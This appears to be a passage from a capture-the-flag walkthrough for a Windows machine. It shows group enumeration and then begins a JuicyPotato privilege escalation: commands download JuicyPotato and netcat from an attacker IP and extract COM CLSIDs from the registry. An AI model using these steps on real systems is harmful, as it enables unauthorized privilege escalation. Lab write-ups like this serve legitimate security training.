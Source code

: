 ```powershell
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

PS C:\Users\kohsuke\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

## SeImpersonatePrivilege privilege escalation

Download JuicyPotato and netcat binaries:

- https://github.com/ohpe/juicy-potato
- [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

```powershell
PS C:\Users\kohsuke\downloads> Invoke-WebRequest -Uri 10.10.14.14/JP_x64.exe -OutFile JP.exe
PS C:\Users\kohsuke\downloads> Invoke-WebRequest -Uri 10.10.14.14/nc.exe -OutFile nc.exe
```

Extract valid CLSID:

```powershell
PS C:\Users\kohsuke\download> New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

WARNING: column "CurrentLocation" does not fit into the display and was removed
.

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT

PS C:\Users\kohsuke\download> $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
PS C:\wamp\www\PHP\spoiler\fileManager\collectives\DG0\custom-uploads> echo $CLSID > CLSID.list

# Download the file locally and "clean it"
$ awk '{print $2}' CLSID.list | tr -d '\000' > CLSID_only.list
```
